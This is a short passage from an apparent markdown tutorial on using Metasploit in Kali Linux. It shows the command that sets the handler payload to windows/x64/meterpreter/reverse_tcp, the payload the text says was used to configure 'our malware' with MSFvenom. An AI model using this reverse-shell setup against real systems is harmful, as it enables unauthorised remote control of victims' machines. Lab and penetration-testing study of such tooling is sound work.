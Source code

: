   <img src="./images/kali-metaploit-1.png" style="width: 80%;">
</p>

First, we change the payload to which we used when we were configuring our malware and MSFvenom
```sh
set payload windows/x64/meterpreter/reverse_tcp
```
We can check by command `options`

<p align="center">